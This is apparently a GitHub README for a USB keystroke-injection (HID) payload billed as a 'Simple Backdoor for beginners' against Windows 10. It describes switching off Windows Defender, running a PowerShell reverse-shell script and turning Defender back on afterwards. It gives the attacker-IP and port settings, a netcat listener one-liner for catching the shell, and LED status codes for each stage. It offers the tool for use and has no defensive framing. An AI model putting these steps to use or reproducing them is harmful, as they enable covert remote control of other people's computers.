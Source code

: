 # Simple Backdoor for beginners
* Author:           RonjaMaja
* Version:          1.0
* Category:         Remote access
* Target:           Microsoft Windows 10 (should work on Windows 11)
* Attackmode:       HID
* Credits to antonioCoco who wrote the powershell script
  
## Description
* opens a backdoor that you can access with Netcat
* 1 script deactivates Windows Defender
* 2 script runs the powershell script
* 3 script activates Windows Defender

## Configuration
* You just need to change 192.168.1.1 and 22
* lhost = your IP adress
* lport = the port you want to use for the Backdoor. I recommend ssh (22).
* example:
* readonly lhost="192.168.4.20"
* readonly lport="80"

## NetCat Command
    stty raw -echo; (stty size; cat) | nc -lvnp rport rhost
* rhost = IP adress from the target
* rport = the port you want to use for the Backdoor (same as lport).

## Tested on

Microsoft Windows 10 Professional Version 20H2 (PowerShell 5.1)

## requirements

The target user must belong to the 'Administrators' group.

## STATUS

| LED                 | Status                                 |
| ------------------- | -------------------------------------- |
| Yellow Single       | deactivate defender Stage              |
| Yellow Double       | Backdoor Stage                         |
| Yellow Triple       | activate defender Stage                |
| Green               | Finished                               |
